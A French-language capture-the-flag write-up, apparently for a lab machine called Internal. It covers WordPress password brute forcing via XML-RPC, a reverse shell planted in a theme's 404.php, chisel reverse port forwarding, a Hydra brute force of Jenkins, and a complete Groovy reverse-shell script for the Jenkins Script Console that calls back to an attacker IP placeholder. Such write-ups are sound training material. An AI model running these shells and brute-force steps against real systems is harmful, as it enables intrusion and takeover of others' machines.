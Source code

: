 # Internal

![image(1)](https://user-images.githubusercontent.com/68467919/209453887-a2b5235a-e2f2-4310-aee1-4affde4b2921.png)

## Énumération

### Nmap

```bash
sudo nmap -sC -sV -O -oN enum/nmap -vv internal.thm

PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 6efaefbef65f98b9597bf78eb9c5621e (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCzpZTvmUlaHPpKH8X2SHMndoS+GsVlbhABHJt4TN/nKUSYeFEHbNzutQnj+DrUEwNMauqaWCY7vNeYguQUXLx4LM5ukMEC8IuJo0rcuKNmlyYrgBlFws3q2956v8urY7/McCFf5IsItQxurCDyfyU/erO7fO02n2iT5k7Bw2UWf8FPvM9/jahisbkA9/FQKou3mbaSANb5nSrPc7p9FbqKs1vGpFopdUTI2dl4OQ3TkQWNXpvaFl0j1ilRynu5zLr6FetD5WWZXAuCNHNmcRo/aPdoX9JXaPKGCcVywqMM/Qy+gSiiIKvmavX6rYlnRFWEp25EifIPuHQ0s8hSXqx5
|   256 ed64ed33e5c93058ba23040d14eb30e9 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBMFOI/P6nqicmk78vSNs4l+vk2+BQ0mBxB1KlJJPCYueaUExTH4Cxkqkpo/zJfZ77MHHDL5nnzTW+TO6e4mDMEw=
|   256 b07f7f7b5262622a60d43d36fa89eeff (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIMlxubXGh//FE3OqdyitiEwfA2nNdCtdgLfDQxFHPyY0
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-server-header: Apache/2.4.29 (Ubuntu)
```

### Gobuster

```bash
gobuster dir -u http://internal.thm -w ~/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -o enum/directory.txt

/blog                 (Status: 301) [Size: 311] [--> http://internal.thm/blog/]
/wordpress            (Status: 301) [Size: 316] [--> http://internal.thm/wordpress/]
/javascript           (Status: 301) [Size: 317] [--> http://internal.thm/javascript/]
/phpmyadmin           (Status: 301) [Size: 317] [--> http://internal.thm/phpmyadmin/]
```

## Port 80 | HTTP

Quand nous nous rendons sur le port 80, nous pouvons découvrir la page par défaut d’Apache. En énumérant les différentes directories, nous pouvons nous rendre compte qu’un répertoire *blog* est accessible.

![Untitled](https://user-images.githubusercontent.com/68467919/209453890-ba75acbf-5633-403a-9d06-1dc5300aa39d.png)

### WpScan

En énumérant les utilisateurs du Wordpress, un seul ressort dans l’output du scan et c’est l’utilisateur admin. Vu qu’XMLRPC est activé, nous pouvons tenter de faire un bruteforce contre la page login du wp-admin pour essayer de trouver le mot de passe de l’utilisateur.

```bash
wpscan -t 5 --url http://internal.thm/blog/ --wp-content-dir /wp-admin/ -U user.txt -P ~/SecLists/Passwords/Leaked-Databases/rockyou.txt

[+] Performing password attack on Xmlrpc against 1 user/s
[SUCCESS] - admin / my[...]ys
```

Grâce à la wordlist *rockyou.txt*, nous trouvons le mot de passe de l’admin ! Nous pouvons désormais nous connecter au panel administrateur.

![Untitled 1](https://user-images.githubusercontent.com/68467919/209453895-bf658811-c4b8-48a5-bf56-dd9012426a98.png)

## Reverse-Shell

En modifiant la page 404.php de la template que le Wordpress utilise (twentyseventeen), nous pouvons y mettre notre propre reverse-shell. 

![Untitled 2](https://user-images.githubusercontent.com/68467919/209453955-9d73de31-4d56-4e8b-8b9d-807c8e45d812.png)

Par la suite, nous pouvons lancer notre listener et nous rendre dans le répertoire de la template (blog/wp-content/themes/twentyseventeen/) puis sur la page 404.php.

```bash
nc -lvnp 1337
```

→ *http://internal.thm/blog/wp-content/themes/twentyseventeen/404.php*

![Untitled 3](https://user-images.githubusercontent.com/68467919/209453899-cdf6fa25-ad9b-4969-8fe2-021800e95eba.png)


## Aubreanna | User

En recherchant rapidement sur les fichiers du système, dans le répertoire */opt* nous pouvons trouver un fichier du nom de “*wp-save.txt”* qui contient les logs de l’utilisateur Aubreanna.

```bash
Bill,

Aubreanna needed these credentials for something later.  Let her know you have them and where they are.

aubreanna:bub[...]@#123
```

Nous pouvons désormais nous connecter en SSH à sa session pour obtenir un shell plus stable.

![Untitled 4](https://user-images.githubusercontent.com/68467919/209453903-6a2b1355-d0e8-4b33-b361-415cd9d10e0b.png)


## Jenkins | Port Forwarding

En allant dans le home directory de aubreanna, nous pouvons encore trouver un fichier du nom de “*jenkins.txt*” qui nous indique qu’un service est entrain de run en local. 

```bash
Internal Jenkins service is running on 172.17.0.2:8080
```

Nous pouvons en déduire également que nous nous trouvons dans un docker. Pour le vérifier, nous pouvons taper la commande ifconfig.

```bash
ifconfig

docker0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 172.17.0.1  netmask 255.255.0.0  broadcast 172.17.255.255
        inet6 fe80::42:aeff:fe74:ff4e  prefixlen 64  scopeid 0x20<link>
        ether 02:42:ae:74:ff:4e  txqueuelen 0  (Ethernet)
        RX packets 8  bytes 420 (420.0 B)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 18  bytes 1324 (1.3 KB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 9001
        inet 10.10.197.88  netmask 255.255.0.0  broadcast 10.10.255.255
        inet6 fe80::57:30ff:fe64:2a39  prefixlen 64  scopeid 0x20<link>
        ether 02:57:30:64:2a:39  txqueuelen 1000  (Ethernet)
        RX packets 415114  bytes 50820091 (50.8 MB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 467047  bytes 634869473 (634.8 MB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        inet6 ::1  prefixlen 128  scopeid 0x10<host>
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 866  bytes 80254 (80.2 KB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 866  bytes 80254 (80.2 KB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

vethad750dd: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet6 fe80::54b2:f8ff:fe12:50c8  prefixlen 64  scopeid 0x20<link>
        ether 56:b2:f8:12:50:c8  txqueuelen 0  (Ethernet)
        RX packets 8  bytes 532 (532.0 B)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 33  bytes 2470 (2.4 KB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```

Pour pouvoir accéder depuis notre machine au service Jenkins, j’ai décidé de télécharger *chisel* pour pour effectuer un port forwarding.

```bash
# sur ma machine
./chisel server -p 8888 -reverse

# sur la machine distante
./chisel client VOTREIP:8888 R:8889:localhost:8080
```

Désormais, en nous rendant en [localhost](http://localhost) sur le port 8889, nous pouvons utiliser le service Jenkins et pouvoir commencer à investiguer !

### Bruteforce (oui encore)

En tombant sur ce poste sur StackOverflow, j’ai pensé à essayer de créer un nouvel utilisateur via */securityRealm/addUser* mais en analysant la réponse de la requête sur BurpSuite, il m’est indiqué qu’il est impossible pour moi de pouvoir le faire étant donné que je suis authentifié en tant qu’anonymous.

[https://stackoverflow.com/questions/15227305/what-is-the-default-jenkins-password](https://stackoverflow.com/questions/15227305/what-is-the-default-jenkins-password)

![Untitled 6](https://user-images.githubusercontent.com/68467919/209453906-2c79e781-adf4-4624-ad61-71a787384fdb.png)
![Untitled 7](https://user-images.githubusercontent.com/68467919/209453926-f77afcad-4fbd-4ea2-9d69-77767593f9ad.png)

J’ai pensé à essayer de faire une requête curl depuis la machine vers cet endpoint pour essayer de me créer un utilisateur mais ça n’a pas fonctionné non plus.

### Hydra

En repensant aux étapes par laquelle je suis passé pour arriver jusqu’ici, j’ai eu l’idée de réessayer un bruteforce sur la page de connexion de Jenkins.

![Untitled 8](https://user-images.githubusercontent.com/68467919/209453927-0d1624b2-a8b2-48be-a618-eb989e5e4649.png)


Le mot de passe est trouvé, nous pouvons désormais nous connecter au panel Jenkins !

## Reverse-Shell | Jenkins

Jenkins dispose d'une console de script Groovy qui permet d'exécuter des scripts Groovy arbitraires dans l'environnement d'exécution du contrôleur Jenkins ou dans l'environnement d'exécution des agents. Pour obtenir un reverse-shell depuis Jenkins, il faut nous rendre dans **********************Manage Jenkins → Script Console********************** et rentrer ces commandes ci-dessous : 

```bash
String host="{your_ip}";
int port=8044;
String cmd="/bin/bash";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();
Socket s=new Socket(host,port);
InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();
OutputStream po=p.getOutputStream(),so=s.getOutputStream();
while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());
while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());
so.flush();po.flush();Thread.sleep(50);
try {p.exitValue();break;}catch (Exception e){}};
p.destroy();s.close();
```

![Untitled 9](https://user-images.githubusercontent.com/68467919/209453931-86805f7b-f74f-468a-88b0-bd59c05a0e46.png)


## Root | root.txt

Rien de sensationnel pour pouvoir élever nos privilèges pour devenir root. En allant dans le fichier */opt/* nous pouvons trouver un deuxième fichier s’appelant “*note.txt*”. A l’intérieur, nous pouvons y trouver le password root. En nous rendant sur sur la session de Aubreanna, nous pouvons nous connecter en SSH au compte root.

*note.txt*

```bash
Aubreanna,

Will wanted these credentials secured behind the Jenkins container since we have several layers of defense here.  Use them if you 
need access to the root user account.

root:tr[...]uM!@#123
```
![Untitled 10](https://user-images.githubusercontent.com/68467919/209453934-74022b34-5280-4f59-b319-08f6e8a3261d.png)

